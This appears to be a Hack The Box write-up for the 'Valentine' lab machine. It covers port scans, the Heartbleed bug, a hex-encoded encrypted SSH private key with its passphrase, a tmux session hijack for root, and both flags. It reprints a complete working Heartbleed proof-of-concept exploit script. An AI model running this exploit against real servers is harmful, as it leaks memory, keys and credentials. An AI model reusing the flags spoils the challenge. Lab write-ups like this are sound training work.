


# Valentine

## Overview

This was a fairly easy box. Initially the heartbleed vulnerability gives the ssh passphrase. Later a tmux session hijacking was performed to be the root user



**Name -** Valentine

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### **Port Scan**

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 3s
╰─ nmap 10.129.163.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 13:15 +06
Nmap scan report for 10.129.163.238
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 21.36 seconds
```

Version Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 2m57s
╰─ nmap 10.129.163.238 -p22,80,443 --script vuln -sC -sV -vvv
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 14:07 +06
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:07
Completed NSE at 14:07, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating Ping Scan at 14:07
Scanning 10.129.163.238 [4 ports]
Completed Ping Scan at 14:07, 0.13s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:07
Scanning valentine.htb (10.129.163.238) [3 ports]
Discovered open port 80/tcp on 10.129.163.238
Discovered open port 443/tcp on 10.129.163.238
Discovered open port 22/tcp on 10.129.163.238
Completed SYN Stealth Scan at 14:07, 0.19s elapsed (3 total ports)
Initiating Service scan at 14:07
Scanning 3 services on valentine.htb (10.129.163.238)
Completed Service scan at 14:07, 12.62s elapsed (3 services on 1 host)NSE: Script scanning 10.129.163.238.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:07
NSE Timing: About 70.50% done; ETC: 14:10 (0:00:54 remaining)
NSE Timing: About 70.76% done; ETC: 14:12 (0:01:14 remaining)
Completed NSE at 14:11, 205.75s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:11
Completed NSE at 14:11, 4.44s elapsed
Nmap scan report for valentine.htb (10.129.163.238)
Host is up, received echo-reply ttl 62 (0.065s latency).
Scanned at 2023-06-07 14:07:34 +06 for 223s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack ttl 62 Apache httpd 2.2.22 ((Ubuntu))
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
443/tcp open  ssl/http syn-ack ttl 62 Apache httpd 2.2.22 ((Ubuntu))
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-ccs-injection:
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      http://www.cvedetails.com/cve/2014-0224
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  CVE:CVE-2014-3566  BID:70574
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.securityfocus.com/bid/70574
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:11
Completed NSE at 14:11, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:11
Completed NSE at 14:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 233.82 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```

I found apache heartbleed vulnerability (CVE-2014-0160) from nmap result

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

Aster running the exploit I found this



I got an hexdump. I decoded it from hexdump


Got another base64 string. after decoding that I got - **heartbleedbelievethehype**


I may use it later.

### **HTTP Enumeration**

Visiting the website gives us the following


Gobuster reveals the following


The /dev folder contains two files


hype.key file contents

```python
2d 2d 2d 2d 2d 42 45 47 49 4e 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d 0d 0a 50 72 6f 63 2d 54 79 70 65 3a 20 34 2c 45 4e 43 52 59 50 54 45 44 0d 0a 44 45 4b 2d 49 6e 66 6f 3a 20 41 45 53 2d 31 32 38 2d 43 42 43 2c 41 45 42 38 38 43 31 34 30 46 36 39 42 46 32 30 37 34 37 38 38 44 45 32 34 41 45 34 38 44 34 36 0d 0a 0d 0a 44 62 50 72 4f 37 38 6b 65 67 4e 75 6b 31 44 41 71 6c 41 4e 35 6a 62 6a 58 76 30 50 50 73 6f 67 33 6a 64 62 4d 46 53 38 69 45 39 70 33 55 4f 4c 30 6c 46 30 78 66 37 50 7a 6d 72 6b 44 61 38 52 0d 0a 35 79 2f 62 34 36 2b 39 6e 45 70 43 4d 66 54 50 68 4e 75 4a 52 63 57 32 55 32 67 4a 63 4f 46 48 2b 39 52 4a 44 42 43 35 55 4a 4d 55 53 31 2f 67 6a 42 2f 37 2f 4d 79 30 30 4d 77 78 2b 61 49 36 0d 0a 30 45 49 30 53 62 4f 59 55 41 56 31 57 34 45 56 37 6d 39 36 51 73 5a 6a 72 77 4a 76 6e 6a 56 61 66 6d 36 56 73 4b 61 54 50 42 48 70 75 67 63 41 53 76 4d 71 7a 37 36 57 36 61 62 52 5a 65 58 69 0d 0a 45 62 77 36 36 68 6a 46 6d 41 75 34 41 7a 71 63 4d 2f 6b 69 67 4e 52 46 50 59 75 4e 69 58 72 58 73 31 77 2f 64 65 4c 43 71 43 4a 2b 45 61 31 54 38 7a 6c 61 73 36 66 63 6d 68 4d 38 41 2b 38 50 0d 0a 4f 58 42 4b 4e 65 36 6c 31 37 68 4b 61 54 36 77 46 6e 70 35 65 58 4f 61 55 49 48 76 48 6e 76 4f 36 53 63 48 56 57 52 72 5a 37 30 66 63 70 63 70 69 6d 4c 31 77 31 33 54 67 64 64 32 41 69 47 64 0d 0a 70 48 4c 4a 70 59 55 49 49 35 50 75 4f 36 78 2b 4c 53 38 6e 31 72 2f 47 57 4d 71 53 4f 45 69 6d 4e 52 44 31 6a 2f 35 39 2f 34 75 33 52 4f 72 54 43 4b 65 6f 39 44 73 54 52 71 73 32 6b 31 53 48 0d 0a 51 64 57 77 46 77 61 58 62 59 79 54 31 75 78 41 4d 53 6c 35 48 71 39 4f 44 35 48 4a 38 47 30 52 36 4a 49 35 52 76 43 4e 55 51 6a 77 78 30 46 49 54 6a 6a 4d 6a 6e 4c 49 70 78 6a 76 66 71 2b 45 0d 0a 70 30 67 44 30 55 63 79 6c 4b 6d 36 72 43 5a 71 61 63 77 6e 53 64 64 48 57 38 57 33 4c 78 4a 6d 43 78 64 78 57 35 6c 74 35 64 50 6a 41 6b 42 59 52 55 6e 6c 39 31 45 53 43 69 44 34 5a 2b 75 43 0d 0a 4f 6c 36 6a 4c 46 44 32 6b 61 4f 4c 66 75 79 65 65 30 66 59 43 62 37 47 54 71 4f 65 37 45 6d 4d 42 33 66 47 49 77 53 64 57 38 4f 43 38 4e 57 54 6b 77 70 6a 63 30 45 4c 62 6c 55 61 36 75 6c 4f 0d 0a 74 39 67 72 53 6f 73 52 54 43 73 5a 64 31 34 4f 50 74 73 34 62 4c 73 70 4b 78 4d 4d 4f 73 67 6e 4b 6c 6f 58 76 6e 6c 50 4f 53 77 53 70 57 79 39 57 70 36 79 38 58 58 38 2b 46 34 30 72 78 6c 35 0d 0a 58 71 68 44 55 42 68 79 6b 31 43 33 59 50 4f 69 44 75 50 4f 6e 4d 58 61 49 70 65 31 64 67 62 30 4e 64 44 31 4d 39 5a 51 53 4e 55 4c 77 31 44 48 43 47 50 50 34 4a 53 53 78 58 37 42 57 64 44 4b 0d 0a 61 41 6e 57 4a 76 46 67 6c 41 34 6f 46 42 42 56 41 38 75 41 50 4d 66 56 32 58 46 51 6e 6a 77 55 54 35 62 50 4c 43 36 35 74 46 73 74 6f 52 74 54 5a 31 75 53 72 75 61 69 32 37 6b 78 54 6e 4c 51 0d 0a 2b 77 51 38 37 6c 4d 61 64 64 73 31 47 51 4e 65 47 73 4b 53 66 38 52 2f 72 73 52 4b 65 65 4b 63 69 6c 44 65 50 43 6a 65 61 4c 71 74 71 78 6e 68 4e 6f 46 74 67 30 4d 78 74 36 72 32 67 62 31 45 0d 0a 41 6c 6f 51 36 6a 67 35 54 62 6a 35 4a 37 71 75 59 58 5a 50 79 6c 42 6c 6a 4e 70 39 47 56 70 69 6e 50 63 33 4b 70 48 74 74 76 67 62 70 74 66 69 57 45 45 73 5a 59 6e 35 79 5a 50 68 55 72 39 51 0d 0a 72 30 38 70 6b 4f 78 41 72 58 45 32 64 6a 37 65 58 2b 62 71 36 35 36 33 35 4f 4a 36 54 71 48 62 41 6c 54 51 31 52 73 39 50 75 6c 72 53 37 4b 34 53 4c 58 37 6e 59 38 39 2f 52 5a 35 6f 53 51 65 0d 0a 32 56 57 52 79 54 5a 31 46 66 6e 67 4a 53 73 76 39 2b 4d 66 76 7a 33 34 31 6c 62 7a 4f 49 57 6d 6b 37 57 66 45 63 57 63 48 63 31 36 6e 39 56 30 49 62 53 4e 41 4c 6e 6a 54 68 76 45 63 50 6b 79 0d 0a 65 31 42 73 66 53 62 73 66 39 46 67 75 55 5a 6b 67 48 41 6e 6e 66 52 4b 6b 47 56 47 31 4f 56 79 75 77 63 2f 4c 56 6a 6d 62 68 5a 7a 4b 77 4c 68 61 5a 52 4e 64 38 48 45 4d 38 36 66 4e 6f 6a 50 0d 0a 30 39 6e 56 6a 54 61 59 74 57 55 58 6b 30 53 69 31 57 30 32 77 62 75 31 4e 7a 4c 2b 31 54 67 39 49 70 4e 79 49 53 46 43 46 59 6a 53 71 69 79 47 2b 57 55 37 49 77 4b 33 59 55 35 6b 70 33 43 43 0d 0a 64 59 53 63 7a 36 33 51 32 70 51 61 66 78 66 53 62 75 76 34 43 4d 6e 4e 70 64 69 72 56 4b 45 6f 35 6e 52 52 66 4b 2f 69 61 4c 33 58 31 52 33 44 78 56 38 65 53 59 46 4b 46 4c 36 70 71 70 75 58 0d 0a 63 59 35 59 5a 4a 47 41 70 2b 4a 78 73 6e 49 51 39 43 46 79 78 49 74 39 32 66 72 58 7a 6e 73 6a 68 6c 59 61 38 73 76 62 56 4e 4e 66 6b 2f 39 66 79 58 36 6f 70 32 34 72 4c 32 44 79 45 53 70 59 0d 0a 70 6e 73 75 6b 42 43 46 42 6b 5a 48 57 4e 4e 79 65 4e 37 62 35 47 68 54 56 43 6f 64 48 68 7a 48 56 46 65 68 54 75 42 72 70 2b 56 75 50 71 61 71 44 76 4d 43 56 65 31 44 5a 43 62 34 4d 6a 41 6a 0d 0a 4d 73 6c 66 2b 39 78 4b 2b 54 58 45 4c 33 69 63 6d 49 4f 42 52 64 50 79 77 36 65 2f 4a 6c 51 6c 56 52 6c 6d 53 68 46 70 49 38 65 62 2f 38 56 73 54 79 4a 53 65 2b 62 38 35 33 7a 75 56 32 71 4c 0d 0a 73 75 4c 61 42 4d 78 59 4b 6d 33 2b 7a 45 44 49 44 76 65 4b 50 4e 61 61 57 5a 67 45 63 71 78 79 6c 43 43 2f 77 55 79 55 58 6c 4d 4a 35 30 4e 77 36 4a 4e 56 4d 4d 38 4c 65 43 69 69 33 4f 45 57 0d 0a 6c 30 6c 6e 39 4c 31 62 2f 4e 58 70 48 6a 47 61 38 57 48 48 54 6a 6f 49 69 6c 42 35 71 4e 55 79 79 77 53 65 54 42 46 32 61 77 52 6c 58 48 39 42 72 6b 5a 47 34 46 63 34 67 64 6d 57 2f 49 7a 54 0d 0a 52 55 67 5a 6b 62 4d 51 5a 4e 49 49 66 7a 6a 31 51 75 69 6c 52 56 42 6d 2f 46 37 36 59 2f 59 4d 72 6d 6e 4d 39 6b 2f 31 78 53 47 49 73 6b 77 43 55 51 2b 39 35 43 47 48 4a 45 38 4d 6b 68 44 33 0d 0a 2d 2d 2d 2d 2d 45 4e 44 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d
```

Some hex content. After decrypting we got a ssh encrypted private key


Notes.txt file contents


Now, We can user the above found password **heartbleedbelievethehype** as passphrase of the SSH private key

## Getting User.txt

I was getting error for the key


But, then I found a solution on the HTB forum.


Using that, I was able to get into the system an fetch the flag


User flag - 53faf897c589d6898676646b2ed52c5a

## Getting root.txt

I found tmux session as root


Using the same command we can be root


Root Flag - c3832cba6ec7da51e909e7395159301b

## Flags

**user.txt -** 53faf897c589d6898676646b2ed52c5a

**root.txt -** c3832cba6ec7da51e909e7395159301b
